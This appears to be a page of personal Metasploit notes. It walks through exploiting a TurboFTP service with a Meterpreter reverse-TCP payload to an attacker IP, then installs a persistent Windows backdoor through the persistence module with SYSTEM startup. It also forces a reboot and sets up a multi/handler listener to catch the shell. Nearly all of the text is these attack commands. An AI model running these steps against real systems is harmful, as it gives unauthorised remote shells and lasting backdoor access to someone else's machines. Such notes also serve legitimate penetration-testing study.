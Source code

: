 #### Metasploit
The basic workflow to exploit a target by using MSFConsole
is:
1. Identifying vulnerable service.
2. Searching for proper exploit for the service.
3. Loading and configuring the exploit.
4. Loading and configuring the payload you want to use.
5. Running the exploit code and getting access to the vulnerable machine.
<br>
We can access metasploit by typing `msfconsole` in linux.
<newline>
`search <parameter>` - searching.
`back` - going back.
* * *
Before running metasploit there are few services needed to be runned.
`service postgresql start`
`service metasploit start`
`msfconsole`
* * *
For example, if want to use the exploit turboftp:
- Searching - `search skeleton turboftp`
- Configuring - `use exploit/windows/ftp/turboftp_port`
- Use `show options` for see more info on the parameters to be given.
- The set the parameters: `set RHOST 10.99.45.8`
- `set FTPUSER example`
- `set FTPPASS examplepass`
- Then  configure payload(Metasploit provides different payloads for different operating systems, with different architectures, and with different features. You can list them all by typing show payloads on the MSFConsole prompt):
- `set payload windows/meterpreter/reverse_tcp`
- Use `show options` for see more info on the parameters to be given.
- `set LHOST 192.168.11.4`
- `set LPORT 1234`
- Then we can use `exploit` command to start exploting the target. Also we can use `exploit -h` to see more options for exploiting.
* * *

For starting modules use `run`.

To kill all sessions `sessions -K` and after that before shutdown `jobs -K`

* * *

#### backdoor installation
First run the session in background.
<newline>
`use exploit/windows/local/persistence`
`set reg_name backdoor`
`set exe_name backdoor`
`set startup SYSTEM`
`set session <session_no>`
`set payload windows/meterpreter/reverse_tcp`
`set exitfunc process`
`set lhost <our_ip>`
`set lport 5555`
`set DisablePayloadHandler false`
`exploit //if the backdoor doesn’t start immediately, use “exploit
-j” instead`
<newline>
`sessions -i 1`
`shell`
`shutdown /r /f` for running above script.
<newline>
Then we need to set an active metasploit listener.
`use exploit/multi/handler`
`set lhost <our_ip>`
`set lport 5555`
`set payload windows/meterpreter/reverse_tcp`
`exploit -j`